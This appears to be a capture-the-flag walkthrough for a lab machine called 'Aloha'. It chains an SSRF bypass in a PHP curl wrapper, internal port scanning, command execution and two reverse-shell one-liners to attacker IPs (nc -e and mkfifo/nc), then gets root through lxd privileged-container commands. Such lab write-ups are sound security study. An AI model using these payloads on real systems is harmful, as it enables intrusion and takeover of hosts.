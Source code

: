 # Aloha

__MACHINE IP__: 10.1.1.60

__DATE__: 05/10/2019

__START TIME__: 8:32 PM



## NMAP

![](images/nmap.png)

There are lot of ports open. We can see there are imap and pop3 ports so that means we might have to play with email services. But let's start simple, with port `80`

## HTTP

If we visit the IP in browser we'll see a beautifully designed web pages

![](images/website.png)

I didn't see anything unusual in the comment section so I ran `gobuster` on it and found a wordpress blog on `/blog`.

![](images/dir.png)

On visiting the blog we can see that there is a post mentioning a page called `/s3cr3tscr4per.php`.

![](images/post.png)

This tell's us about the `/s3cr3tscr4per.php` URL and that there's a person named `alex`. If we open the said page we'll get a so called `website scraper`.

![](images/secretpage.png)

Now noticed that warning in red that reads ` ERROR: URL must contain http schema`. Well if you see anything that says something about having a http schema or something like that the first thing you should check if RFI(remote file inclusion). So I made a file called `evil.php` having

```php
<?php echo shell_exec("nc -e /bin/sh 10.254.0.20 4444") ?>
```

And then started a `python` server and tried to include this file but it didn't worked. Then [@andreas]() told me to look around the website to search for the source of that page. I re-ran the gobuster scan with `-x`(extension) and found `/test.zip`. It had the source for `/s3cr3tscr4per.php`

```php
$ip = '2130706433';
$ip2 = '2147483646';
$gethostname = parse_url($_GET['command'], PHP_URL_HOST);
$hostname = gethostbyname($gethostname);
if (ip2long($hostname) <= $ip2 && $ip <= ip2long($hostname)) {
    die('<b><font color="red">ERROR:</b></color> restricted host');

}
system('curl -s ' . escapeshellcmd($_GET['command']) . ' || echo website not found');
?>
```

We can see it's using `curl` to get the content of the file but the issue is it's using `system` to grab those files but the issue is that it's using `escapeshellcmd` function which is used to prevent arbitary command exec.

I googled about how to exploit that and found [exploit-bypass-php-escapeshellarg-escapeshellcmd](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)

but that didn't seemed the way. I then talked with the author and he said that I need to use taht curl command for internal scanning of the system.

Now if we focus on the code the IP `127.0.0.1` is restricted host but we can use `0.0.0.0` to refer to localhost.

![](images/included.png)

This means it works but now we'll need to do port scan for that I made a script:

```bash
for x in {1..65535};
    do cmd=$(curl -so /dev/null -X POST "http://10.1.1.60/s3cr3tscr4per.php?command=http://0.0.0.0:${x}" -w '%{size_download}')
    if [ $cmd -gt 385 ]; then
        echo "Open port: $x"
    fi
done
```

This way I found out that 3 port were opened

![](images/open-port.png)

We know that 3306 is mysql so first I checked the 6060 and it was some kind of console service

![](images/console.png)

I tried executing command like

```bash
➜ http -b http://10.1.1.60/s3cr3tscr4per.php\?command\="http://0.0.0.0:6060/?cmd=ls"
```

And it did work.

![](images/rce.png)

But when I did something like `ls -la` or `ls /home` I got error so @theart42 suggested to double encode the command.

![](images/home.png)

So I double encoded the following string and passed it to cmd to get the reverse shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.254.0.10 4444 >/tmp/f
```

![](images/rev.png)

In `/home/alex/.dev` I found the SSH keys

![](images/keyz.png)

![](images/ssh.png)

![](images/user.png)

## privilege escalation

Downloaded the enumeration script and ran it to see if I can find anything interesting

Found lxd installed

![](images/lxc-image.png)

So I used the exploited it by running following commands

```bash
lxc init f68aac3ef6f1 privesc -c security.privileged=true
lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc sh
```

![](images/root.png)

